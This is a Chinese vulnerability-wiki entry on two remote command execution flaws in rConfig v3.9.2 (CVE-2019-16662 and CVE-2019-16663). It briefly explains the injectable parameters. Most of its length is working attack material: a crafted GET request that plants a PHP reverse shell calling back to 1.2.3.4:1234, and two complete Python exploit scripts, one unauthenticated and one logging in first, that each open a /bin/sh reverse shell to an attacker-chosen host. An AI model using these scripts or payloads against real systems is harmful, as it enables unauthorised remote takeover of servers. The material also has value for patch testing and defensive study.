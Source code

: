 （CVE-2019-16662）（CVE-2019-16663）rConfig v3.9.2 远程命令执行
===============================================================

一、漏洞简介
------------

我在两个文件中分别发现了两个远程代码执行漏洞。第一个是ajaxServerSettingsChk.php，攻击者可以通过rootUname参数发送精心构造的一个GET请求，触发未授权RCE漏洞。rootUname参数在源文件第2行中定义，随后会在第13行传递给exec函数，攻击者可以构造参数接收内容实现让操作系统执行恶意命令。这个漏洞很容易利用和发现,后面的篇幅中我将介绍如何发现并利用这个漏洞。

第二个漏洞是在search.crud.php发现的，这文件需要通过身份验证才能触发远程代码执行漏洞。这个漏洞可以通过构造一个包含有两个参数的GET请求触发，其中searchTerm参数可以包含任意值，但该参数必须存在，才能执行到第63行的exec函数。

二、漏洞影响
------------

rConfig v3.9.2

三、复现过程
------------

    https://www.0-sec.org/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=`php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId24.png)

pyton脚本一

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId25.png)

python脚本二

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId26.png)
